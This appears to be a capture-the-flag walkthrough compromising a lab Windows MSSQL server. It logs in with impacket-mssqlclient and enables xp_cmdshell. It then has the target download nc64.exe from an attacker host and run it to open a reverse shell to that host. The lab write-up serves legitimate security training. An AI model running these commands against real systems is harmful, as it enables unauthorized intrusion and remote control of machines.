


mssqlclient
Microsoft SQL Client
impacket-mssqlclient
or
python3 mssqlclient.py -h

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
Note: Windows Auth Option is used because the Password that was recieved was a windows password rather than MS-SQL password itself.


Here's two great articles that can guide us further to our exploration journey with MSSQL Server:
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
SELECT is_srvrolemember('sysadmin');

The output is 1 , which translates to True .
First Check if xp_cmdshell is active or not:
EXEC xp_cmdshell 'net user';

As we see its not activated, we activate by the following commands:
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
After activating we test it.
xp_cmdshell "whoami"

xp_cmdshell "powershell -c pwd"
\
Command to make the Target machine download our nc64.exe backdoor:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{Attacker_IP}/nc64.exe -outfile nc64.exe"
Check the interaction in our local webserver:

As we see the Target_IP has downloaded nc64.exe
Run the Backdoor
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {Attacker_IP} {Attacker Listening Port}"
Finally looking back at our netcat listener we can confirm our reverse shell and our foothold to the system:
